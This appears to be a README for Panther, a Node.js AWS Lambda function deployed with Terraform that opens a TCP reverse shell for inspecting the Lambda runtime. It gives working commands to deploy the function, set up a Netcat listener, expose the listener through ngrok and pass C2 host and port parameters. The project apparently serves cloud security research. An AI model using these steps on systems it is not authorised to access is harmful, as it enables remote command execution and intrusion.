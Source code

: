 # Puma Prey Panther

Panther is a Node.js function that can be deployed to the AWS to establish a TCP reverse shell for the purposes of introspecting the Lambda container runtime.

## Installing Prerequisites

* [AWS Command Line Interface](https://aws.amazon.com/cli/)
* [Node.js v16 / NPM](https://nodejs.org/en/download/)
* [Terraform](https://learn.hashicorp.com/terraform/getting-started/install.html)

## Deploying The Function

```bash
# AWS profile to use for the deployment
export TF_VAR_profile=default
export TF_VAR_unique_identifier=$(uuidgen | cut -b 25-36 | awk '{print tolower($0)}') 
cd ./panther/src/terraform
terraform init
terraform apply --auto-approve
```

## Function Testing

Retrieve the Function URL and API Key via the CLI.

```bash
export PANTHER_FUNCTION_URL=$(terraform output --json | jq -r '.panther_function_url.value')
export PANTHER_API_KEY=$(terraform output -json | jq -r '.panther_function_api_key.value')
curl -H "X-API-Key: $PANTHER_API_KEY" $PANTHER_FUNCTION_URL
```

The result should show an error message indicating required C2 parameters are missing:

```json
{"message":"Must provide the host and port for the target TCP server as query parameters."}
```

See [here](../script/USAGE.md) for more details on how to use this script.

Alternatively, you can do this manually by setting up a Netcat listener like so:

```bash
nc -l 4444
```

Then, to make your listener accessible from the public internet, consider using a service like ngrok:

```bash
ngrok tcp 4444
```

Finally, invoke your function, supplying your connection details and API key:

```bash
curl -H "X-API-Key: $PANTHER_API_KEY" $PANTHER_FUNCTION_URL
?host=NGROK_PORT_IP&port=NGROK_PORT_NUMBER"
```

Your listener will now act as a reverse shell for the duration of the function invocation.

## Teardown

```bash
terraform destroy
```

## Learning More

Read [documentation](./docs/NOTES.md) on what you can accomplish once you connect to the runtime via Panther.
